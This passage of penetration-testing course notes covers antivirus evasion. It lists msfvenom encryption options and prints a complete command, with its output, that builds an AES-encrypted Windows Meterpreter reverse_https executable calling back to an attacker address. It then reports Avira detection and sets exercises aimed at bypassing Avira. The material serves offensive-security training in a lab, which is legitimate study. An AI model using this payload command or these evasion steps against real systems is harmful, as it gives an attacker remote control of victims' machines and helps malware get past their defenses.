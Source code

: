 ```
kali@kali:~$ msfvenom --list encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

> Listing 23 - Listing msfvenom encryption types

Leveraging the strength of aes256[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5135-1) encryption, we'll generate an executable with aes256-encrypted shellcode and use a custom encryption key through the --encrypt-key option (Listing 24).

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 625 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64_aes.exe
```

> Listing 24 - Using AES256 encryption with msfvenom

Let's copy the encrypted executable to our Windows 10 victim machine and run an on-demand Avira scan:

![[OffSec/OSEP/Course/z. images/d3d24816f3225f87c7e31bfc7557fc13_MD5.jpg]]

Figure 7: Avira detecting AES encrypted Meterpreter

Unfortunately, our executable is still flagged. A Rapid7 blog post[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5135-2) suggests this feature is effective for antivirus evasion, but the decryption routine itself can still be detected since it is static.

Our analysis so far has revealed that encryption will not be effective for bypassing security solutions if the decoding or decryption techniques are static, since they will be analyzed and eventually signatures will be written for them.

It's time to change tactics once again. The most effective solution at this point is to write our own shellcode runner. In the next section, we'll begin this process.

#### Exercises

1. Generate a Metasploit executable using aes256 encryption and verify that it is flagged.
2. Experiment with different payloads, templates, and encryption techniques to attempt to bypass Avira.
